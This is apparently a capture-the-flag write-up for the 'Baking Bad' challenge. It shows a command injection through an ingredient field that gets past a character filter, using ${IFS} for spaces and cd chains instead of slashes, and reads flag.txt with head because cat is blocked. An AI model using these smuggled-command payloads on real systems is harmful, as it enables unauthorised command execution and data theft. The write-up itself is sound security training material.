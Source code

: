 # Baking Bad

```text
This new kid on the block, Bake'n'berg, has taken over the market with some new dough that has 99.2% purity. Ours is not even 60%!

Our bakers have been trying to come up with a new P2P-recipe trying all sorts of weird ingredients to raise the purity, but it's so costly this way.

Luckily, the developers at Brunnerne have come up with a bash -c 'recipe' that can simulate the baking process. This way we can test ingredients in a simulator to find ingredients that result in a higher purity - without wasting any ressources.
```

From the description, it is clear that this is a Command Injection problem

![image](../images/3.png)

Going to `/quality.sh`:

```shell
#!/bin/sh
ingredient="$1"
[ -z "$ingredient" ] && { echo "No ingredient!"; exit 1; }

purity=$(awk -v s="$RANDOM" 'BEGIN{srand(s);printf "%.1f",80+20*rand()}')
echo "Ingredient: $ingredient"
echo "Purity: $purity%"
```

After a few tries, we get to know that `space`, `/`, `\` are *Illegal characters*

`space` can be replaced by `${IFS}`

```shell
sugar;cd${IFS}..;cd${IFS}..;cd${IFS}..;ls
Ingredient: sugar
Purity: 93.5%
bin
boot
dev
etc
flag.txt
home
lib
lib.usr-is-merged
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Yay flag.txt!
But `cat` is an *Illegal command*, so we use `head`

```shell
sugar;cd${IFS}..;cd${IFS}..;cd${IFS}..;head${IFS}flag.txt
Ingredient: sugar
Purity: 83.1%
brunner{d1d_1_f0rg37_70_b4n_s0m3_ch4rz?}
```
